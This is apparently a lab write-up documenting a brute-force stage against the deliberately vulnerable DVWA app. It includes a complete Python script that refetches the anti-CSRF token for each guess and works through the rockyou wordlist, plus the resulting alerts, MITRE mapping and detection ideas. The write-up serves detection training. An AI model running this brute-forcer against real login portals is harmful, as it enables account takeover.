










# Stage 02 — Brute Force

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Stage 02](../../04-Investigation/Stages/stage-02-bruteforce.md)
> **Evidence:** [attack](../Attack-Screenshots/) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/)

## Objective

Obtain valid administrative credentials for the DVWA web application via an automated dictionary brute-force attack against `/login.php`, bypassing anti-CSRF token protection mechanisms.

## Commands

```bash
# 1. Author custom CSRF-handling brute-force automation script in Python
nano dvwa_bruteforce.py

# Script implementation:
cat << 'EOF' > dvwa_bruteforce.py
import requests
import re
import sys

target = "http://192.168.56.30/login.php"
username = "admin"
wordlist = "/usr/share/wordlists/rockyou.txt"

session = requests.Session()

def get_token():
    r = session.get(target)
    match = re.search(r"user_token'\s*value='([a-f0-9]+)'", r.text)
    return match.group(1) if match else None

def try_login(password):
    token = get_token()
    if not token:
        print("[!] Could not find token")
        return False
    data = {
        "username": username,
        "password": password,
        "Login": "Login",
        "user_token": token
    }
    r = session.post(target, data=data)
    if "Login failed" not in r.text:
        print(f"[+] SUCCESS: {username}:{password}")
        return True
    return False

with open(wordlist, "r", encoding="latin-1") as f:
    for line in f:
        password = line.strip()
        print(f"[*] Trying: {password}")
        if try_login(password):
            break
EOF

# 2. Execute brute-force attack against target portal
python dvwa_bruteforce.py
```

## What happened

1. **CSRF Challenge & Script Development**: Standard dictionary brute-forcing tools (such as Hydra or basic curl loops) failed against the DVWA authentication interface because every login request requires a dynamically generated `user_token` hidden field in the HTML form. To circumvent this, the attacker authored `dvwa_bruteforce.py` on Kali Linux (`192.168.232.135`).
2. **Session Maintenance & Dynamic Extraction**: The script maintains an active HTTP session via `requests.Session()`. Before dispatching each candidate password, it issues a GET request to `http://192.168.56.30/login.php`, extracts the active anti-CSRF token using regular expression parsing (`user_token'\s*value='([a-f0-9]+)'`), and injects it into the POST payload alongside `username=admin`.
3. **Execution & Credential Recovery**: The attacker executed the script against the target, iterating through candidate passwords from `/usr/share/wordlists/rockyou.txt`. After trying common passwords (`123456`, `12345`, `123456789`), the script tested the password `password`. The application accepted the authentication attempt, established an authenticated session, and omitted the "Login failed" string, resulting in the output `[+] SUCCESS: admin:password`.

## Evidence

### Attack Screenshots


*Figure 2.1: Custom Python brute-force script designed to parse user_token anti-CSRF values.*


*Figure 2.2: Execution output discovering valid administrative credentials (admin:password).*

### Alert Screenshots


*Figure 2.3: TheHive alert inbox displaying multiple correlated Wazuh and Suricata web security alerts.*


*Figure 2.4: Wazuh rule 31151 alert tracking multiple 404 client errors from 192.168.232.135.*


*Figure 2.5: Suricata rule 100410 alert for high-volume HTTP 4xx error bursts exceeding 100 in 60s.*


*Figure 2.6: Wazuh rule 31168 critical alert flagging Shellshock attack patterns in web requests.*


*Figure 2.7: Wazuh watchlist rule triggering on sensitive file access attempts targeting /etc/passwd.*


*Figure 2.8: Wazuh rule 31153 alert aggregating multiple common web attack signatures.*


*Figure 2.9: Wazuh rule 31154 alert tracking cross-site scripting attack vectors.*


*Figure 2.10: Suricata rule 86601 alert detecting Unicode directory traversal attempts in HTTP traffic.*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive alert / Reference | Severity |
|---|---|---|---|---|
| Wazuh (Apache accesslog) | `[DVWA] Multiple common web attacks from same source ip.` | 31153 | `wzb-81becfcc8d` | Medium (2) |
| Wazuh (Apache accesslog) | `[DVWA] DVWA: Multiple 400 errors - [404] [192.168.232.135]` | 31151 | `wzb-4de933ca95` | Medium (2) |
| Wazuh (Apache accesslog) | `[DVWA] Shellshock attack detected` | 31168 | `wzb-30ff03b872` | Critical (4) |
| Wazuh (Apache accesslog) | `[WATCHLIST x14: passwd] [DVWA] 192.168.232.135` | 31153 | `wzb-10160d36c2` | Medium (2) |
| Suricata / Wazuh | `Suricata: High-volume HTTP 4xx burst from 192.168.232.135 - possible scan/enumeration (>100 in 60s)` | 100410 | `wzb-6a39ab2a3d` | Medium (2) |
| Suricata / Wazuh | `[4x] [Suricata] Suricata: Alert - GPL EXPLOIT unicode directory traversal attempt` | 86601 | `wzb-df413d7c7e` | Medium (2) |

## MITRE ATT&CK

| Tactic | Technique | ID |
|---|---|---|
| Credential Access | Brute Force: Password Guessing | T1110.001 |
| Credential Access | Brute Force: Credential Stuffing | T1110.004 |

## Detection opportunities

- **Authentication Failure Threshold Correlation**: Wazuh rules configured to monitor Apache access logs for consecutive POST requests to `/login.php` resulting in redirect responses (`302`) back to `/login.php` or HTTP 200 responses without session elevation, exceeding 5 attempts within 60 seconds.
- **Automated Script User-Agent Flagging**: Suricata and Wazuh signatures matching programmatic default User-Agents such as `python-requests/2.32.5`.
- **IP Reputation and Behavioral Throttling**: Implementing rate-limiting reverse proxies or tools such as Fail2ban to block IP addresses issuing high-frequency authentication attempts.
- **Multi-Factor Authentication (MFA) & Lockout Controls**: Enforcing account lockout policies and multi-factor authentication on administrative portals to thwart password guessing attacks.

## Notes

- The attack successfully extracted valid administrator credentials (`admin:password`).
- The surrounding scanning and probing generated a cascade of alerts across both Wazuh log decoders and Suricata network signatures, creating actionable alert clusters inside TheHive.
